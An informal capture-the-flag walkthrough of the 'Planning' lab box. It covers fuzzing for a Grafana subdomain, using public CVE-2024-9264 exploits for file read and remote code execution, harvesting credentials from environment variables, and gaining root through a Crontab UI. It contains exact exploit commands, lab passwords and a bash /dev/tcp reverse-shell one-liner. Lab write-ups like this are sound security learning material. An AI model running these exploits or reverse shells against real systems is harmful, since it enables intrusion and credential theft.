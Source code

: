 I get credentials to start with

admin 0D5oT70Fq13EvB5r

Initial QUICK TCP SCAN



I see theres port 22 open and port 80. 


Looking at the web server I see meet our instructurs there seems to be three people so three users


Stella Haks 

Rose Mary

Bob Moss


So if I have to fuzz anything ill fuzz with the names

stella 
rose
bob
admin

will be my username wordlist.


Since SSH didnt work with the credentials I assume itll maybe be a Samba server or a SNMP




Also I notice there is alot of .php pages on this so when i fuzz I will scan for .php endpoints


The contact endpoint doesnt seem to actual submit any form as no data is sent with it

Lets fuzz for subdomains and directories with feroxbuster and ffuf




I dont find anything intresting fuzzing subdomains Lets try fuzzing for Directories


```
feroxbuster -u http://planning.htb -w /home/haxor/pen/SecLists/Discovery/Web-Content/raft-large-directories.txt -x php

```

http://planning.htb/lib/owlcarousel/LICENSE

what is owlcarousel? 





This also exists

http://planning.htb/js/main.js


as does this

http://planning.htb/enroll.php

There is no relfection however there may be on the end of the maybe could get xss to steal admin cookie?


I once more fuzz subdomains with a different wordlist


```
ffuf -w SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://planning.htb/ -H "Host: FUZZ.planning.htb" -fs 178
```

i find the grafana subdomain


which brings me to a login where i use 


admin : 0D5oT70Fq13EvB5r


upon looking up grafana i find this cve

https://github.com/z3k0sec/File-Read-CVE-2024-9264/


Which affects

Grafana >= v11.0.0 (all v11.x.y are impacted) 



this works

python3 poc.py --url http://grafana.planning.htb --user admin --password 0D5oT70Fq13EvB5r --file /etc/passwd


So i can read any file.
how can i get command injection though

10.10.14.64

Lets use this version to get RCE

https://github.com/nollium/CVE-2024-9264

and this is our payload for rn we can change it if we need to 


```
python3 CVE-2024-9264.py -u admin -p '0D5oT70Fq13EvB5r' -c 'whoami' http://grafana.planning.htb

```



lets try this one

https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit

and i use

python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.64 --reverse-port 1337

when i get the reverse shell i see that i am root and i see run.sh

which says its in a docker file


and there is a .dockerenv file which tells me this is in a docker container

Ok so i search for the database with 

find . -type f -name "*.db"


so so the file is at /var/lib/grafana/grafana.db so lets just read it via LFI


I transfer the data by base64 encoding it all


Nvm it too big ima use curl

After getting stuck on this for a long time i use env and get some credentials

```
# env
GF_PATHS_HOME=/usr/share/grafana
HOSTNAME=7ce659d667d7
AWS_AUTH_EXTERNAL_ID=
SHLVL=1
HOME=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_LOGS=/var/log/grafana
_=/usr/bin/sh
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
PWD=/usr/share/grafana

```


This works with ssh


enzo : RioTecRANDEntANT!



```

17 *	* * *	root	cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6	* * 7	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6	1 * *	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
```


cronjobs found with linpeas


```

╔══════════╣ Active Ports
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#open-ports
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:39699         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```



port 8000 is intresting.


/var/backups


I also find some SUID binaries


i found a crontab running as root.

/opt/crontabs/crontab.db


so i ssh port forward


ssh -L 8075:127.0.0.1:8000 enzo@planning.htb


It asks for credentials and i find them here 

/opt/crontabs/crontab.db



root : P4ssw0rdS0pRi0T3c

got me into a crontabUI

which there is a root cleanup kit and i edit the command to run

bash -c 'bash -i >& /dev/tcp/10.10.14.64/5091 0>&1'



